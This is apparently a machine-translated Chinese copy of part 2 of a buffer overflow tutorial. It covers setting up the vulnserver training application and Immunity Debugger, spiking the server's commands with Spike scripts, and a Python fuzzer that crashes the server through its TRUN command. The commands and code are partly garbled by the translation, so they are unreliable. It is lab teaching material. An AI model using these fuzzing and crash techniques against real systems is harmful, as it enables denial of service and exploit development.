

# 缓冲区溢出教程(第 2 部分)

> 原文：<https://blog.devgenius.io/buffer-overflow-tutorial-part2-c21c6de5c11c?source=collection_archive---------2----------------------->

安加德·辛格·www.officialhacker.com

# 2 — **利用缓冲区溢出**

在本教程中，我们将针对名为*“vulnserver”的易受攻击软件*这是一个基于 Windows 的线程化 TCP 服务器应用程序，专为开发目的而设计。该产品主要是作为学习如何发现和使用缓冲区溢出错误的工具。它包含的每一个缺陷相对于其他缺陷来说都是不明显的，在编写漏洞利用时需要稍微不同的方法来处理。要下载这个软件，请访问以下网页:*[*http://www . the grey corner . com/2010/12/introducing-vulnserver . html*](http://www.thegreycorner.com/2010/12/introducing-vulnserver.html)*。*从页面底部，点击*“vulnserver . zip”*文件。*

**

*导航到*“Downloads”*文件夹，提取 Zip 文件。找到 *"vulnserver.exe"* 可执行文件，并以管理员身份运行。*

**

**“vulnserver”*将启动活动会话并等待传入的连接。*

**

*我们需要下载的另一个重要工具叫做*“免疫调试器”*当你需要编写漏洞、分析恶意软件和逆向工程 Win32 二进制文件时，这是一个值得拥有的简单应用程序。*

*该软件带有直观的图形界面和命令行。要下载免疫调试器，请访问*[*https://www.immunityinc.com/products/debugger/*](https://www.immunityinc.com/products/debugger/)*网站，并点击*“在此下载免疫调试器！”*链接。***

****

**安装软件后，以管理员身份运行它。**

****

**从免疫调试器主窗口，点击*“文件”*选项卡，并选择*“附加”*选项。**

****

**将弹出一个小窗口，要求您选择要检查的特定过程。从该窗口中，找到 *"vulnserver"* 进程，并点击 *"Attach"* 按钮。**

****

**它会将易受攻击软件的运行过程嵌入调试器界面。要开始运行调试器，请单击播放按钮。**

****

# **3 — **扣球****

**斯派克是卡利分布的一部分。这是一个程序，发送创建的软件包到一个应用程序，使其崩溃。Spike 既可以发送 TCP 包，也可以发送 UDP 包，在 Spike 的辅助下，我们可以发现应用程序中的漏洞。在这一部分，我们将演示如何使用斯派克来对付*“攻击服务器”***

**在 Windows 机器上启动*“vulnserver”*，在 Kali Linux 上用*“netcat”连接*“vulnserver”**默认情况下，*“vulnserver”*运行在端口 9999 上。**

****Ex:****(****root @ kali****:~ # NC-NV 10 . 10 . 10 . 4 9999)。**

*然后键入*【帮助】*列出可用的命令。*

**

*要发送 TCP 包，我们使用*“generic _ send _ TCP”*命令。使用该命令的正确形式如下: *(generic_send_tcp < IP 地址> <端口号><spike _ script><skip var><skip str>)。**

****Ex:****(****root @ kali****:~ # generic _ send _ TCP)。**

**

*在模板包含多个变量的情况下，如果我们为*“skip var”指定不同的值，我们可以测试每个变量在我们的例子中，这总是零。Spike 用交替的字符串代替变量来发送包。如果我们为*“skip str”指定一个值，我们可以从测试中的一个特定点开始*如果该值为零，那么 Spike 从头开始。**

*尖峰脚本描绘了通信的包配置。这样我们就可以告诉斯派克，应该先测试哪些参数。我们需要检查*“vulnserver”*中的每一个命令，看看是否能让它崩溃。*

*例如，下面的模板将尝试发送带有各种参数的 *"STATS"* 命令。*

*打开文本编辑器，键入下面几行来测试 *"STATS"* 命令，并将其保存为 *"stats.spk"* 文件。*

**s _ readline()；**

**s _ string(" STATS ")；**

**s _ string _ variable(" 0 ")；**

**

*现在我们已经准备好发送我们的第一个包裹了。当我们的调试器运行时，使用我们创建的 spike 脚本键入以下命令来测试 *"STATS"* 参数。*

****Ex:****(****root @ kali****:~ # generic _ send _ TCP 10 . 10 . 10 . 4 9999 stats . spk 0)。**

**

*观察免疫调试器，并等到应用程序崩溃。如果在一分钟左右的时间内它没有崩溃，停止使用*“STATS”*参数，尝试其他命令。*

**

*出于时间考虑，我们对其中一些进行了测试，发现*【TRUN】*参数易受攻击，几秒钟内就崩溃了。打开文本编辑器，输入以下行来测试 *"TRUN"* 命令，并将其保存为 *"trun.spk"* 文件。*

**s _ readline()；**

**s _ string(" TRUN ")；**

**s _ string _ variable(" 0 ")；**

**

*在我们开始发送包裹之前，我们必须设置环境。首先以管理员身份在 Windows 机器上运行*“vulnserver”*和 Immunity 调试器。然后将*“vulnserver”*运行进程附加到 Immunity，运行调试器。*

*现在我们可以发送 TCP 包来秒杀*“vulnserver”*，让它崩溃。*

****Ex:****(****root @ kali****:~ # generic _ send _ TCP 10 . 10 . 10 . 4 9999 trun . spk 0)。**

**

*在几秒钟内，我们可以看到免疫性调试器已经暂停，并且发生了访问冲突。这意味着我们已经覆盖了内存中的*【EIP】【EBP】**【ESP】*部分，从现在开始可以执行任何缓冲区溢出了。*

**

# *4 —起毛*

*fuzzing 方法非常类似于 spiking，因为我们将在一个特定的命令中发送多个字符，并试图使其崩溃。不同的是，对于尖峰信号，我们试图对各种参数进行测试，以找出哪些是易受攻击的。既然我们知道*“TRUN”*参数配置不正确，我们将专门攻击该命令。*

*在我们开始模糊化*“vulnserver”*之前，我们必须设置环境。首先以管理员身份在 Windows 机器上运行*“vulnserver”*和 Immunity 调试器。然后将*“vulnserver”*运行进程附加到 Immunity，运行调试器。*

*运行您最喜欢的文本编辑器，键入以下几行:*

**—————**

**#！/usr/bin/python**

**导入系统，插座**

**从时间导入睡眠**

**buffer = "A" * 100**

**为真时:**

**试试:**

**s = socket.socket(套接字。AF_INET，socket。SOCK_STREAM)**

**s.connect(('10.10.10.4 '，9999))**

**s.send(('TRUN /。:/' + buffer))**

**s.close()**

**睡眠(1)**

**buffer = buffer + "A" * 100**

**除了:**

**打印“在%s 字节“% str(len(buffer))”时模糊崩溃**

**sys.exit()**

**—————**

**

*完成后，将其保存为 *"Fuzzing1.py"* ，并将 mod 更改为可执行文件。*

****Ex:****(****root @ kali****:~ # chmod+x fuzz ing1 . py)。**

*因此，我们告诉 python 脚本运行特定的模块并连接到我们的 Windows 机器，该机器位于 10.10.10.4 中的端口 9999 上。然后，我们将发送一个易受攻击的 *"TRUN"* 命令，向它附加 100 个 *"A"* 字符，这将继续下去，直到它崩溃。*

*让我们运行 python 脚本并监控免疫调试器。*

****Ex:****(****root @ kali****:~ #。/Fuzzing1.py)。**

*一旦它崩溃，终止脚本并记录崩溃位置的大概字节大小。在我们的例子中，它发生在 2200 字节。*

**

*[缓冲区溢出教程(第一部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part1-efc6b9f3e4ee)*

*[缓冲区溢出教程(第二部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part2-c21c6de5c11c)*

*[缓冲区溢出教程(第三部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part3-98ab394073e3)*

*[缓冲区溢出教程(第四部分)](https://medium.com/dev-genius/buffer-overflow-tutorial-part4-1e80e90a2f03)*